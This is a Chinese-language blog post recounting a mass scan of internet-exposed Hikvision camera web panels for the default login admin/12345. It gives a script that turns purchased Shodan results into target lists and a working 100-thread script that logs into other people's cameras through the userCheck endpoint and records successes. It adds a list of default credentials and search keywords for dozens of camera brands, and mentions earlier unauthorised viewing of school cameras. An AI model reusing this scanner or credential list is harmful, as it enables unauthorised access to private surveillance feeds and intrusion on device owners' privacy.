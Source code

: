 ```yaml
---
title: 针对海康威视网络摄像头弱密码的一次扫描
date: 2019-11-28 20:15:06
tags:
  - scan
  - web
categories:
  - coding
---
```


## 前言

在我上高二的时候，海康威视摄像头被爆出大量公开web访问具有弱密码，那时手动对学校内部的摄像头进行fuzz，成功进入了几个摄像头控制web，能够随意查看学校的监控。

海康威视web界面的弱密码是 admin  12345

时隔四年，想要再次对网络上能够访问到的海康威视web管理进行一次批量弱密码扫描

## 从shodan获取数据

首先需要搞到全网所有能够访问到的海康威视机器的IP，这是个工作量极大的任务，如果自己进行全网服务扫描的话无论是时间周期还是耗费资金都是我无法承受的

之前了解过shodan，shodan被称为“最恐怖的搜索引擎”，能够提供多年来其扫描到的全网提供的服务，可惜数据的价格极高

今年黑五是shodan诞生第十年，shodan给出极大的优惠，正式会员+20credit只需要1刀，手头有信用卡和企业邮箱的我二话不说先上了20个账号

有了shodan的credit就可以购买它的数据了。海康威视的web管理界面的关键词很简单，只需要在shodan搜索“hikvision”

![最新的搜索结果](shodan1.png)

在我写这篇博客的时候搜索到的数据有18万条，前段时间我下载数据的时候是19万条。

下载大量数据是需要花credit的，1credit可以下载1万条数据，所以19万多的数据花费了我20credit，正常情况下20credit是49刀，这次黑五真是太实惠了

## 提取有用信息

有了数据之后通过python解析，检查是否存在http服务，如果存在就提取ip和port

```python
#!/usr/bin/env python
#-*-coding:utf-8-*-

import json

fi = open("shodan_data.json")
fo = open("ip.txt", 'w')

line = fi.readline()
numall = 1
num = 0

while line:
    line = fi.readline()
    numall = numall+1
    try:
        a = json.loads(line)
        if 'http' in a:
            num = num+1
            txt = a['http']['host']+':'+str(a['port'])+'\n'
            fo.write(txt)
            print(txt)
    except Exception as e:
        continue

fo.close()
fi.close()

print(numall)
print(num)
```

## 分析与扫描

然后通过多线程python脚本进行弱密码批量扫描。

通过手工尝试找到一台可以弱密码登录进去的机器，通过burp抓包分析，找到用来验证弱密码的接口。

![登录使用的接口和验证方式](baseauth.png)

分析发现登录使用的是base auth，这就简单了。使用的接口是userCheck，如果登录成功应该返回200.

![登录成功](authsuccess.png)

```python
#!/usr/bin/env python
#-*-coding:utf-8-*-
#批量筛选海康威视摄像头的弱密码
import threading
import requests
import queue
import sys
import re

def Threads():
    threadlist=[]
    myqueue=queue.Queue()
    for ip in open('ip.txt','r'): #扫描出的ip
        myqueue.put(ip.replace('\n',''))
    for x in range(0,100):  #线程数
        th=threading.Thread(target=scan_Hikvision,args=(myqueue,))
        threadlist.append(th)
    for t in threadlist:
        t.start()
    for t in threadlist:
        t.join()

def scan_Hikvision(myqueue):
    while not myqueue.empty():
        ip=myqueue.get()
        try:
            print("[*]scan:"+ip)
            r = requests.get(url=("http://%s/PSIA/Custom/HIK/userCheck" % ip),auth=('admin','12345'),timeout=10)
            status = re.findall(r'<statusValue>(.*)</statusValue>', r.text)
            if status[0] == '200':
                print('[√] Host http://'+ ip +' Login Success!\n')
                f = open('ok.txt', 'a+')
                f.write(ip+"\n")
                f.close()
                break
        except:
            continue

if __name__=='__main__':
    Threads()
```

正好有个美国的vps，就扔到这个服务器上进行扫描，本机也开起来扫

100线程很快就扫描完毕了，国内外扫描完的结果去重后一共留下105个可登录弱密码。感觉不应该只有这么点，登录后查看只发现一个版本的海康威视，可能是检测弱密码的接口在其他版本中不存在，或者其他版本默认密码更换或者其他原因

## 后话

海康威视应该是采取了手段来避免弱密码的再次产生，但是之前老版本的DVR还有一部分并没有进行更新，大部分是农村的家庭或工厂监控，大家也都不太懂，并没有修改默认密码

心里不是滋味，身边也有一些父母的朋友他们让我帮忙安装一些路由器、监控等设备，他们的文化水平不高，当我要给他们修改密码的时候，一部分会选择手机号码，也有一部分让我不要修改密码，说改了别记不住，直接出厂密码就行了，忘了可以看一下说明书

能不能想出一种办法，既考虑到安全性，又能顾虑到这部分人的需求，这是个问题

## 弱密码收集

```
1.海康威视IP网络摄像机：
用户：admin，密码：12345
zoomeye搜索关键词：hikvision
2.大华网络摄像机：
user:admin pass:admin 管理权限
user:default pass:user 用户默认登陆帐号
user:888888 pass:admin
user:666666 pass:user
zoomeye搜索关键词：WEB SERVICE
3.cctv摄像机：
user：admin pass：空
telnet登陆 user：root pass：”juantech”
zoomeye搜索关键词：JAWS/1.0
4.SQ-WEBCAM摄像机：
user：admin pass：admin
zoomeye搜索关键词：SQ-WEBCAM
ACTi: admin/123456 or Admin/123456
American Dynamics: admin/admin or admin/9999
Arecont Vision: none
Avigilon: admin/admin
Axis: traditionally root/pass, new Axis cameras require password creation during first login
Basler: admin/admin
Bosch: none
Brickcom: admin/admin
Canon: root/camera
Cisco: No default password, requires creation during first login
Dahua: admin/admin
Digital Watchdog: admin/admin
DRS: admin/1234
DVTel: Admin/1234
DynaColor: Admin/1234
FLIR: admin/fliradmin
Foscam: admin/
GeoVision: admin/admin
Grandstream: admin/admin
Hikvision: admin/12345
Honeywell: admin/1234
IQinVision: root/system
IPX-DDK: root/admin or root/Admin\
JVC: admin/jvc
March: Networks: admin/
Mobotix: admin/meinsm
Panasonic: admin/12345
Pelco Sarix: admin/admin
Pixord: admin/admin
Samsung Electronics: root/root or admin/4321
Samsung Techwin (old): admin/1111111
Samsung (new): admin/4321
Sanyo: admin/admin
Scallop: admin/password
Sentry360 (mini): admin/1234
Sentry360 (pro): none
Sony: admin/admin
Speco: admin/1234
Stardot: admin/admin
Starvedia: admin/
Trendnet: admin/admin
Toshiba: root/ikwd
VideoIQ: supervisor/supervisor
Vivotek: root/
Ubiquiti: ubnt/ubnt
Wodsee: admin/
```
